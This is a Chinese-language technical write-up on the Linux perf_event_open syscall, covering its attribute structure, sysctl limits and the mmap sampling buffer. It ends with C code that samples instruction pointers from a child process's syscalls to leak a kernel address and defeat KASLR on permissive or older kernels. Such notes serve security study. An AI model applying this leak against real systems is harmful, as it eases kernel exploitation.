

### 		Perf_event_open Leak Kernel Address

#### perf_event_open

​	[perf_event_open](https://man7.org/linux/man-pages/man2/perf_event_open.2.html)系统调用用于性能监控，函数原型如下：

```c
  int syscall(SYS_perf_event_open, struct perf_event_attr *attr,
                   pid_t pid, int cpu, int group_fd, unsigned long flags);
```


perf_event_open根据给定的参数返回一个关联对应`event`的文件描述符，可用于其他系统调用，如`read`，`mmap`，`prctl`，`fnctl`。其中，`pid`和`cpu`参数可指定监控的指定的进程、cpu。

一个`event`的`disable`和`enable`状态可以通过`ioctl`和`prctl`管理。

```
ioctl(perf_fd, )
```


`event`可分为两种类型：`计数(counting)`和`采样(sampled)`；前者是某一个事件发生的次数，通常通过`read`获取值；后者是定期将采样结果放入缓冲区，通过mmap获取。

#### struct perf_event_attr

`perf_event_attr`结构体相当于`event`的配置信息，原型

```c
  struct perf_event_attr {
               __u32 type;                 /* Type of event */
               __u32 size;                 /* Size of attribute structure */
               __u64 config;               /* Type-specific configuration */

               union {
                   __u64 sample_period;    /* Period of sampling */
                   __u64 sample_freq;      /* Frequency of sampling */
               };

               __u64 sample_type;  /* Specifies values included in sample */
               __u64 read_format;  /* Specifies values returned in read */

               __u64 disabled       : 1,   /* off by default */
                     inherit        : 1,   /* children inherit it */
                     pinned         : 1,   /* must always be on PMU */
                     exclusive      : 1,   /* only group on PMU */
                     exclude_user   : 1,   /* don't count user */
                     exclude_kernel : 1,   /* don't count kernel */
                     exclude_hv     : 1,   /* don't count hypervisor */
                     exclude_idle   : 1,   /* don't count when idle */
                     mmap           : 1,   /* include mmap data */
                     comm           : 1,   /* include comm data */
                     freq           : 1,   /* use freq, not period */
                     inherit_stat   : 1,   /* per task counts */
                     enable_on_exec : 1,   /* next exec enables */
                     task           : 1,   /* trace fork/exit */
                     watermark      : 1,   /* wakeup_watermark */
                     precise_ip     : 2,   /* skid constraint */
                     mmap_data      : 1,   /* non-exec mmap data */
                     sample_id_all  : 1,   /* sample_type all events */
                     exclude_host   : 1,   /* don't count in host */
                     exclude_guest  : 1,   /* don't count in guest */
                     exclude_callchain_kernel : 1,
                                           /* exclude kernel callchains */
                     exclude_callchain_user   : 1,
                                           /* exclude user callchains */
                     mmap2          :  1,  /* include mmap with inode data */
                     comm_exec      :  1,  /* flag comm events that are
                                              due to exec */
                     use_clockid    :  1,  /* use clockid for time fields */
                     context_switch :  1,  /* context switch data */
                     write_backward :  1,  /* Write ring buffer from end
                                              to beginning */
                     namespaces     :  1,  /* include namespaces data */
                     ksymbol        :  1,  /* include ksymbol events */
                     bpf_event      :  1,  /* include bpf events */
                     aux_output     :  1,  /* generate AUX records
                                              instead of events */
                     cgroup         :  1,  /* include cgroup events */
                     text_poke      :  1,  /* include text poke events */

                     __reserved_1   : 30;

               union {
                   __u32 wakeup_events;    /* wakeup every n events */
                   __u32 wakeup_watermark; /* bytes before wakeup */
               };

               __u32     bp_type;          /* breakpoint type */

               union {
                   __u64 bp_addr;          /* breakpoint address */
                   __u64 kprobe_func;      /* for perf_kprobe */
                   __u64 uprobe_path;      /* for perf_uprobe */
                   __u64 config1;          /* extension of config */
               };

               union {
                   __u64 bp_len;           /* breakpoint length */
                   __u64 kprobe_addr;      /* with kprobe_func == NULL */
                   __u64 probe_offset;     /* for perf_[k,u]probe */
                   __u64 config2;          /* extension of config1 */
               };
               __u64 branch_sample_type;   /* enum perf_branch_sample_type */
               __u64 sample_regs_user;     /* user regs to dump on samples */
               __u32 sample_stack_user;    /* size of stack to dump on
                                              samples */
               __s32 clockid;              /* clock to use for time fields */
               __u64 sample_regs_intr;     /* regs to dump on samples */
               __u32 aux_watermark;        /* aux bytes before wakeup */
               __u16 sample_max_stack;     /* max frames in callchain */
               __u16 __reserved_2;         /* align to u64 */

           };

```


一些关键的字段

* type

  指定了`event`的类型，也是`event`的来源，有以下几种

  * PERF_TYPE_HARDWARE
    * 来自内核的硬件事件
  * PERF_TYPE_SOFTWARE
    * 来自内核的软件事件
  * PERF_TYPE_TRACEPOINT
    * 来自内核的tracepoint事件
  * PERF_TYPE_BREAKPOINT
    * 来自cpu的硬件断点信息，包括代码访问断点和内存读写断点
  * kprobe & uprobe
    * 动态监控点 创建的 kprobe / uprobe会attach在perf_event_open返回的文件描述符中。

* config

  和`type`字段一起指定想要监控的事件，相当于`type`字段的子类

  当`type`为`PERF_TYPE_SOFTWARE`时，支持的`config`如下

  * PERF_CONFIG_SW_CPU_CLOCK

    报告cpu的时钟，一个高精度的CPU计数器

  * PERF_COUNT_SW_TASK_CLOCK

    报告特定进程的时钟计数

  * PERF_COUNT_SW_PAGE_FAULTS

    报告`页错误`的次数

  * PERF_COUNT_SW_CONTEXT_SWITCHES

    记录上下文切换的次数

  * ...

* sample_type

  当该`event`属于sampled采样类型时，这个字段的每一个bit指定了需要采样的数据。

  * PERF_SAMPLE_IP

    记录指令指针（事件发生的地址）

  * PERF_SAMPLE_TID

    记录产生事件的进程/线程ID

  * PERF_SMAPLE_TIME

    记录事件发生的时间戳

  * PERF_SAMPLE_CALLCHAIN

    记录调用链（栈回溯）

  * ...

  

* sample_period

  指定采样的周期，即每发生`sample_period`次事件，进行一次采样。

* disabled

  标记该`event`在创建时的状态是`disabled(1)`还是`enabled(0)`；

  通常在创建event group时，group leader设置为disabled，child event设置为enabled。

* exclude_user

  忽略发生在用户态的`event`

* exclude_hv

  忽略发生管理程序中的`event`，主要用于PMU创建的动态监控点，有内建的处理机制。

* precise_ip

  控制着事件记录的精确度，即采样的SAMPLE_IP的精确度：发生事件的指令 和 内核停止执行并记录该事件之间的指令数

  * 0 

    SAMPLE_IP 精度任意，由内核决定

  * 1 SAMPLE_IP

    低精确度

  * 2 SAMPLE_IP

    尽量高精度(0 skid)

  * 3 SAMPLE_IP

    确保零误差（0 skid）


#### perf_event相关的配置文件

##### /proc/sys/kernel/perf_event_paranoid

该文件的存在与否，标识了内核是否支持`perf_event_open`。

`perf_event_paranoid`的值限制了`event`的可访问性

* -1

  没有任何限制

* 0

  只允许访问指定CPU的数据，不允许访问tracepiont的采样

* 1

  同时支持内核态、用户态的测量（监控）（4.6之前默认）

* 2

  只支持用户态的测量（监控）（4.6之后默认）

##### /proc/sys/kernel/perf_event_max_sample_rate

​	设置最大采样频率，太高的采样频率会使得机器超负载

##### /proc/sys/kernel/perf_event_max_stack

​	设置了采样时需要的栈回溯的最大深度

##### /proc/sys/kernel/perf_event_mlock_kb

​	非特权用户能够mlock的最大页数。


#### MMAP Layout

当`perf_event_open`创建的是一个`sampeld`采样的事件时，采样的数据被记录在`mmap`创建的`ring-buffer`中。

创建的`map_size`必须是`1+2^n`个PAGE。

##### perf_event_mmap_page

第一个page存储`struct perf_event_mmap_page`，保存着一些元数据。

```c
   struct perf_event_mmap_page {
               __u32 version;        /* version number of this structure */
               __u32 compat_version; /* lowest version this is compat with */
               __u32 lock;           /* seqlock for synchronization */
               __u32 index;          /* hardware counter identifier */
               __s64 offset;         /* add to hardware counter value */
               __u64 time_enabled;   /* time event active */
               __u64 time_running;   /* time event on CPU */
               union {
                   __u64   capabilities;
                   struct {
                       __u64 cap_usr_time / cap_usr_rdpmc / cap_bit0 : 1,
                             cap_bit0_is_deprecated : 1,
                             cap_user_rdpmc         : 1,
                             cap_user_time          : 1,
                             cap_user_time_zero     : 1,
                   };
               };
               __u16 pmc_width;
               __u16 time_shift;
               __u32 time_mult;
               __u64 time_offset;
               __u64 __reserved[120];   /* Pad to 1 k */
               __u64 data_head;         /* head in the data section */
               __u64 data_tail;         /* user-space written tail */
               __u64 data_offset;       /* where the buffer starts */
               __u64 data_size;         /* data buffer size */
               __u64 aux_head;
               __u64 aux_tail;
               __u64 aux_offset;
               __u64 aux_size;

           }
```

* data_head

  指向`data section`的头部，一直不断递增

* data_tail

  当mmap类型为`PORT_WRITE`时，需要更新为`last read`，通知内核已经读取的采样数据

* data_offset

  mmap缓冲区中采样数据起始的偏移位置

* data_size

  在mmap缓冲区中采样数据的大小

##### data value

剩余的`2^n`PAGE的内存分布由event的type和采样的sample_type决定，每一次采样都以一个header结构开始

```c

struct perf_event_header {
    __u32   type;
    __u16   misc;
    __u16   size;
};
```

如果`sample_type = PERF_SAMPLE_IP`，每一次采样的结构

```c
struct{
	struct perf_event_header header;
	u64 ip;	
}
```


#### Leak Kernel Address

​		基于前面对于`perf_event_open`的认识，其中一个特别的采样数据就是`PERF_SAMPLE_IP`，因为这个将返回一个指令的地址，如果是发生在内核中的事件，将造成内核地址泄漏，而`/proc/sys/kernel/perf_event_paranoid`对这一点做了限制，4.6之后默认不允许采样内核数据，但是4.6之前是支持的。

##### 创建perf_event

`type`为PERF_TYPE_SOFTWARE，`config`为PERF_COUNT_SW_TASK_CLOCK，`sample_type`为PERF_SAMPLE_IP，设置`exclude_user`，采样子进程的时钟计数，而子进程一直调用同一个系统调用（越精简越好） ，这里以`getuid`为例

```c
	struct perf_event_attr pe;
	int fd = -1;
	pid_t child = 0;

	switch ((child = fork())) {
	case -1:
		fprintf(stderr, "fork failed: %m\n");
		return -1;
	case 0:;
		int id = 0;
		while (1) id = getuid();
		return 1;
	default:
		break;
	}

	memset(&pe, 0, sizeof(pe));
	pe.size = sizeof(pe);
	pe.type = PERF_TYPE_SOFTWARE;
	pe.config = PERF_COUNT_SW_TASK_CLOCK;
	pe.disabled = 1;
	pe.exclude_user = 1;
	pe.exclude_hv = 1;
	pe.sample_type = PERF_SAMPLE_IP;
	pe.sample_period = 10;
	pe.precise_ip = 1;

	fd = perf_event_open(&pe, child, -1, -1, 0);
	if(fd == -1){
		printf("failed to perf_event_open!\n");
		return -1;
	}
```

##### 获取kernel address

本质是收集大量的内核地址，取最小的地址，由于子进程的调用的内核代码有限，有很大的概率稳定得到一系统调用的函数地址

```c

	while(sample_counts < 50){
		// wait for new data
		while(mpage->data_head == last_head);

		last_head = mpage->data_head;

		while(progres < last_head){
			cur = (struct sample*)(data_page + progres % DATE_SIZE);
			switch(cur->header.type){
				case PERF_RECORD_SAMPLE:
					sample_counts += 1;
					if(cur->header.size < sizeof(*cur)){
						printf("size too small!\n");
						return -1;
					}
					uint64_t prefix = (cur->ip);
					// find min address
					if(prefix < min){
						min = prefix;
					}
					break;
			case PERF_RECORD_THROTTLE:
			case PERF_RECORD_UNTHROTTLE:
			case PERF_RECORD_LOST:
				break;
			default:
				fprintf(stderr,
                                        "unexpected event: %x\n",
                                        cur->header.type);
				return -1;
			}
			progres += cur->header.size;

		}
		// tell kernel, we have read it, reflect last read
		mpage->data_tail = last_head;
	}
```




#### Refer links

[KALSE AND PERF](https://blog.lizzie.io/kaslr-and-perf.html)

[man](https://man7.org/linux/man-pages/man2/perf_event_open.2.html)

Documentation/admin-guide/perf-security.rst


